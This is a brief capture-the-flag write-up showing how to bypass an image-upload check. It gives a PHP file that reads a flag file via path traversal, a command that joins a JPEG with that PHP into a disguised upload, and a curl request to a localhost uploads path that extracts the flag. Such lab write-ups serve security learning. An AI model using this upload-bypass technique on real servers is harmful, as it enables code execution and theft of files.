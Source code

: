 ```php
<?php
echo "\n".file_get_contents("../flagsflagsflagsflagsflagsflagsflagsflags/flag4")."\n";
?>
```

Here's the bash to create the payload:

```bash
$ cat image.jpg hax.php > pwn.php
```

Here's the bash to extract the flag

```bash
$ curl http://127.0.0.1/uploads/pwn.php 2> /dev/null | grep -a flag
```

